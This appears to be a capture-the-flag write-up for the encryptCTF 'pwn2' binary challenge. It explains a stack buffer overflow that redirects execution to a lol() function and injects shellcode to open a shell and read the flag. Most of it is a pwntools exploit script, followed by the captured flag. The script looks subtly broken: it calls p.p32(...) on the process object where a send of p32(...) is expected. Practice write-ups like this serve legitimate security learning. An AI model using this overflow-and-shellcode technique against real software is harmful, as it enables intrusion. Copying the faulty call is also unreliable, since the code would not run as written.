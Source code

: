 # 🔑 Write-Up

What we can do to retrieve the flag is overflowing the buffer `buffer`, overwriting `main()` return address to be `lol()` function entrypoint. We'll also need to provide shellcode where lol stack base will be.

```python
from pwn import *

context.binary = "./pwn2"

p = process()

p.send(b"A" * 44)
p.p32(context.binary.functions["lol"].address + 3)
p.sendline(asm(shellcraft.sh()))
p.sendline(b"cat flag.txt")
log.success(p.recvline_regex(rb".*{.*}.*").decode("ascii"))
```

### 🚩 Flag

```plain
encryptCTF{N!c3_j0b_jump3R}
```